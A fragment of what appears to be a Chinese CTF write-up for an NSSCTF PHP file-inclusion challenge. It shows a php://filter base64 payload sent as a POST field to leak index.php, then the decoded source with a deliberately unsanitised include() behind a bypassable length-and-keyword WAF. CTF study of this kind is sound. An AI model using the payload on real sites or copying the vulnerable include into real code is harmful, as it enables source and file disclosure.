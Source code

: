 ```php
flag=php://filter/read=convert.base64-encode/resource=index.php
```

![alt text](images/image-7.png)

5. 接着我们进行base64解码

```php
<?php

$path = $_POST["flag"];

if (strlen(file_get_contents('php://input')) < 800 && preg_match('/flag/', $path)) {
    echo 'nssctf waf!';
} else {
    @include($path);
}
?>

<code><span style="color: #000000">
<span style="color: #0000BB">&lt;?php&nbsp;<br />highlight_file</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br />include(</span><span style="color: #0000BB">$_POST</span><span style="color: #007700">[</span><span style="color: #DD0000">"flag"</span><span style="color: #007700">]);<br /></span><span style="color: #FF8000">//flag&nbsp;in&nbsp;/var/www/html/flag.php;</span>
</span>
</code><br />
```
